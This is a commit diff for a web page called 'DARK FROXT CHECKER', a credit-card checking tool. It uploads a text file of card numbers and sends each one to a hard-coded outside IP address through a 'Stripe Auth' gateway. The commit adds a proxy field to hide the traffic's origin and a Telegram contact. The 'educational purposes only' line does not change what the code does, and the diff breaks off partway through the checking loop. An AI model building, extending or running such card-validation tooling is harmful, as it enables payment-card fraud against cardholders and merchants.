

Before and after one commit to bunny00908/New-index, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,41 +2,60 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <title>DARK FROXT CHECKER - Upload & Check</title>
+  <title>DARK FROXT CHECKER</title>
   <meta name="viewport" content="width=device-width, initial-scale=1">
   <link href="https://fonts.googleapis.com/css2?family=Roboto:wght@700&display=swap" rel="stylesheet">
   <style>
     body {
-      background: linear-gradient(135deg, #1a202c 0%, #7f1d1d 100%);
+      background: linear-gradient(135deg, #13161b 0%, #581c1c 100%);
       color: #fff;
       font-family: 'Roboto', Arial, sans-serif;
       margin: 0; min-height: 100vh;
     }
-    .container { max-width: 950px; margin: 50px auto; padding: 32px; background: rgba(0,0,0,0.4); border-radius: 20px; box-shadow: 0 8px 30px #0008;}
-    h1 { text-align: center; }
-    .uploader { text-align: center; margin-bottom: 22px; }
-    input[type="file"] { margin-top: 8px; color: #fff; }
-    button { background: #2563eb; color: #fff; border: none; border-radius: 8px; padding: 12px 28px; font-size: 1.15rem; font-weight: bold; cursor: pointer; transition: background 0.2s; margin-top: 10px;}
+    .container { max-width: 440px; margin: 40px auto; background: rgba(0,0,0,0.45); border-radius: 15px; padding: 26px 22px 20px 22px; box-shadow: 0 6px 24px #0008;}
+    header { text-align: center; margin-bottom: 18px; }
+    h1 { margin: 0 0 7px 0; font-size: 1.6rem; letter-spacing: 2px; color: #93c5fd; text-shadow: 0 2px 8px #1e293b70;}
+    .contact { margin: 12px 0 0 0; font-size: 1rem; color: #b2cdfd; text-align: center;}
+    .contact a { color: #60a5fa; text-decoration: none;} .contact a:hover { color: #f87171;}
+    .uploader { display: flex; flex-direction: column; align-items: center; margin-bottom: 12px;}
+    .gateway-group { margin-bottom: 10px; }
+    .gateway-label { font-size: 1.07rem; margin-right: 7px; color: #7dd3fc; font-weight: bold;}
+    select { font-size: 1.07rem; border-radius: 5px; padding: 3px 7px;}
+    .proxy-group { margin-bottom: 10px; width: 100%;}
+    .proxy-label { font-size: 1.02rem; color: #b2cdfd; margin-right: 7px;}
+    input[type="text"] { border-radius: 5px; border: none; font-size: 1.01rem; padding: 4px 8px; width: 98%; margin-top: 3px;}
+    input[type="file"] { margin: 0 0 12px 0; color: #fff; font-size: 1rem; }
+    button { background: #2563eb; color: #fff; border: none; border-radius: 7px; padding: 12px 38px; font-size: 1rem; font-weight: bold; cursor: pointer; box-shadow: 0 2px 8px #1e293b44; margin-bottom: 8px; transition: background 0.2s;}
     button:hover { background: #1d4ed8; }
-    .results { display: flex; gap: 32px; justify-content: center; margin-top: 18px; flex-wrap: wrap;}
-    .result-box { flex: 1 1 370px; background: rgba(0,0,0,0.5); border-radius: 12px; padding: 16px 16px 18px 16px; min-height: 250px; box-shadow: 0 2px 14px #0005; border: 2px solid #333; display: flex; flex-direction: column;}
+    .results { display: flex; gap: 10px; justify-content: center; margin-top: 6px;}
+    .result-box { flex: 1 1 140px; background: rgba(21,22,29,0.8); border-radius: 8px; padding: 10px 8px 12px 8px; min-height: 80px; max-width: 48%; border: 1.5px solid #28303d; font-size: 0.98rem; box-shadow: 0 1.5px 10px #0007; display: flex; flex-direction: column;}
     .approved { border-color: #10b981; }
     .declined { border-color: #ef4444; }
-    .result-box h3 { margin-top: 0; text-align: center; letter-spacing: 1px; }
-    .approved-list, .declined-list { font-family: monospace; font-size: 1.06rem; margin: 0; padding-left: 14px; word-break: break-all; flex: 1 1 auto;}
-    .approved-list { color: #10b981;}
-    .declined-list { color: #ef4444;}
-    .loading { color: #fbbf24; text-align: center; margin-top: 12px;}
-    .note { color: #ccc; font-size: 0.95rem; margin-top: 20px; text-align:center;}
-    a { color: #60a5fa; text-decoration: none;}
-    a:hover { color: #f87171; }
-    @media (max-width: 950px) { .results { flex-direction: column; gap: 20px;} }
+    .result-box h3 { margin: 0 0 8px 0; text-align: center; font-size: 1.07rem; letter-spacing: 1px; color: #fff;}
+    .approved-list { color: #10b981; font-size: 0.95rem; margin: 0;}
+    .declined-list { color: #ef4444; font-size: 0.95rem; margin: 0;}
+    .loading { color: #fbbf24; text-align: center; font-size: 1.02rem; margin: 5px 0 7px 0;}
+    .note { color: #b2cdfd; font-size: 0.89rem; text-align: center; margin-top: 14px; margin-bottom: 2px;}
+    @media (max-width: 520px) {.container { max-width: 98vw; padding: 7vw 1vw; } .results { flex-direction: column; gap: 6px;} .result-box { max-width: 100%; min-height: 64px;}}
   </style>
 </head>
 <body>
   <div class="container">
-    <h1>DARK FROXT CHECKER</h1>
+    <header>
+      <h1>DARK FROXT CHECKER</h1>
+    </header>
     <div class="uploader">
+      <div class="gateway-group">
+        <label class="gateway-label" for="gateway">Gateway:</label>
+        <select id="gateway">
+          <option value="stripe">Stripe Auth</option>
+          <option value="b3" disabled>B3 (Coming Soon)</option>
+        </select>
+      </div>
+      <div class="proxy-group">
+        <label class="proxy-label" for="proxy">Proxy (optional):</label>
+        <input type="text" id="proxy" placeholder="IP:PORT or user:pass@ip:port">
+      </div>
       <input type="file" id="ccFile" accept=".txt">
       <button onclick="checkCardsFromFile()">Check Cards</button>
     </div>
@@ -52,15 +71,26 @@
       </div>
     </div>
     <div class="note">
-      <p>Educational purposes only. Not for fraudulent use.</p>
+      Educational purposes only. Not for fraudulent use.
     </div>
-    <div class="note">
-      <a href="https://t.me/code_wraith" target="_blank">Contact: @Code_Wraith</a>
+    <div class="contact">
+      Contact: <a href="https://t.me/code_wraith" target="_blank">@Code_Wraith</a>
     </div>
   </div>
   <script>
-    const API_URL = "http://46.202.163.144:9090/v1/stripe/cc=";
+    // Add more gateways by extending this function:
+    function getApiUrl(gateway) {
+      if (gateway === "stripe") {
+        return "http://46.202.163.144:9090/v1/stripe/cc=";
+      }
+      // B3 and more: Add here when ready
+      return "";
+    }
+
     async function checkCardsFromFile() {
+      const gateway = document.getElementById("gateway").value;
+      const proxy = document.getElementById("proxy").value.trim();
+      const API_URL = getApiUrl(gateway);
       const fileInput = document.getElementById("ccFile");
       const approvedList = document.getElementById("approvedList");
       const declinedList = document.getElementById("declinedList");
@@ -88,11 +118,20 @@
       for (let i = 0; i < cardLines.length; i++) {
         const card = cardLines[i];
         progress.textContent = `Checking card ${i+1} of ${cardLines.length}...`;
+
         try {
-          const resp = await fetch(API_URL + encodeURIComponent(card));
+          // Build fetch options with proxy support (demo, real use requires backend or CORS proxy)
+          let fetchOptions = {};
+          if (proxy) {
+            // You cannot use a proxy directly from browser JS fetch (browser security)
+            // Instead, send the proxy string as a header or param for your backend/API to use
+            fetchOptions = {
+              headers: { 'X-Proxy': proxy }
+            };
+          }
+          const resp = await fetch(API_URL + encodeURIComponent(card), fetchOptions);
           const text = await resp.text();
 
-          // Try to parse JSON, fallback to text
           let approved = false;
           let message = text;
           try {
```
